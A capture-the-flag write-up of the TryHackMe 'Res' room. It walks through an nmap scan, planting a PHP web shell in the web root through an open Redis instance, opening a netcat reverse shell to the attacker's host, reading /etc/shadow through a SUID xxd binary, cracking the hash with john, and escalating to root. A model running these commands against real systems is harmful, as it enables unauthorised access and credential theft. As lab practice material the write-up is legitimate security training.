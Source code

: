 # Res

These notes are from a challenge I did @[tryhackme](https://tryhackme.com) called [res](https://tryhackme.com/room/res).

## Flag 1

Scanning the environment we find an apache webserver and a redis database...

``` sh
sudo nmap -sC -sV -sS 10.10.103.145 -p-
```

When connecting to redis we can set write a file to the main apache dir and create a simple php reverse shell:

``` sh
redis-cli -h 10.10.103.145
>config set dir /var/www/html
>config set dbfilename shell.php
>set test "<?php system($_GET['cmd']);?>"
```

Before we visit our new page we should open a netcat session:

``` sh
nc -nvlp 666
```

Time to run our shell.php :)

``` sh
http://10.10.103.145/shell.php?cmd=nc 10.10.146.116 667 -e /bin/sh
```

Once we are succesfully connected we can stabilize the shell and view the first flag:

``` sh
python3 -c 'import pty;pty.spawn("/bin/bash")'
cat /home/vianka/user.txt
```

## Flag 2

Lets have a look at the passwd

``` sh
cat /etc/passwd
vianka:x:1000:1000:Res,,,:/home/vianka:/bin/bash
```

There is SUID bit set for xxd. To access the shadow file can use [this trick](https://gtfobins.github.io/gtfobins/xxd/).

``` sh
LFILE=/etc/shadow
xxd "$LFILE" | xxd -r
vianka:$6$2p.tSTds$qWQfsXwXOAxGJUBuq2RFXqlKiql3jxlwEWZP6CWXm7kIbzR6WzlxHR.UHmi.hc1/TuUOUBo/jWQaQtGSXwvri0:18507:0:99999:7:::
```

Time to crack the password:

``` sh
unshadow passwd.txt shadow.txt > hash.txt
john hash.txt
```

Once we have the password we can escalate our priviledges to vianka which somehow also has root access.

``` sh
su vianka
sudo su
cat /root/root.txt
```
